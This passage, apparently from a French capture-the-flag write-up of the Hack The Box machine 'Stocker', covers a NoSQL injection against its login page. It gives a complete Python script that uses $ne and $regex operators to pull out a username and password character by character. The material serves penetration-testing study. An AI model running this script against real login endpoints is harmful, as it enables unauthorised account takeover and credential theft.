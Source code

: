 - Une fois l'host de configuré, on peut accéder à une nouvelle partie du site auparavant cachée : login.
- On accéde donc à cette page. On nous demande de nous connecter.

### Le site : la page de login.

La page de login est vulnérable au nosql bypass auth. On peut faire un simple script python visant à découvrir un username et un password de disponible :

```python
import requests, string, json

header = {"Host" : "dev.stocker.htb", "Content-Type": "application/json"}
req = requests.get("http://stocker.htb", headers=header)
cookie = req.cookies
username=''
while True:
# tenter de voir si le username trouvé à l'instant T est entier ou non
	full_username = {"username": {"$eq":username}, "password": {"$ne": "null"} }
	req = requests.post("http://stocker.htb/login", headers=header, json=full_username )
	if "error" not in req.content.decode():
		break
# trouver les caractères restants du username
	for c in string.ascii_letters:
		datas = {"username": {"$regex":"^" + username + c}, "password": {"$ne": "null"} }
		req = requests.post("http://stocker.htb/login", headers=header, json=datas )
		if "error" not in req.content.decode():
			username += c
			break

print("Username found : " + username)

password = ''
# même principe que pour le username
while True:
	full_passwd = {"username": {"$eq":username}, "password": {"$eq": password} }
	req = requests.post("http://stocker.htb/login", headers=header, json=full_passwd )
	if "error" not in req.content.decode():
		cookie = req.cookies
		break
	for c in string.printable:
		datas = {"username": {"$eq":username}, "password": {"$regex": "^" + password + c} }
		req = requests.post("http://stocker.htb/login", headers=header, json=datas )
		if "error" not in req.content.decode():
			password += c
			break

print("Password found : " + password)

print(f"username:password : {username}:{password}")

```
